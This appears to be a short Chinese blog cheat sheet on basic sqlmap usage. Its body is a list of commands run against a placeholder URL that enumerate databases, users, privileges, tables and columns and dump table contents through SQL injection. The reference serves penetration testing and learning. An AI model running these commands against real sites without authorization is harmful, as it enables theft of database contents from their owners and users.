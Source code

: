 ```yaml
---
title: sqlmap基本用法
date: 2019-06-02 16:27:57
tags: sqlmap
---
```

sqlmap总结（以后会更新）
<!-- more -->

sqlmap.py -u url --dbs 				//爆数据库
sqlmap.py -u url --current-db				 //爆当前库
sqlmap.py -u url --current-user 			//爆当前用户
sqlmap.py -u url --users   				查看用户权限
sqlmap.py -u url --tables -D 数据库 			//爆表
sqlmap.py -u url --columns -T 表段 -D 数据库		 //爆字段
sqlmap.py -u url --dump -C 字段 -T 表段 -D 数据库 		//爆内容
sqlmap.py -u url --dump --start=1 --stop=3 -C 字段 -T 表段 -D 数据库 		//猜解1到3的字段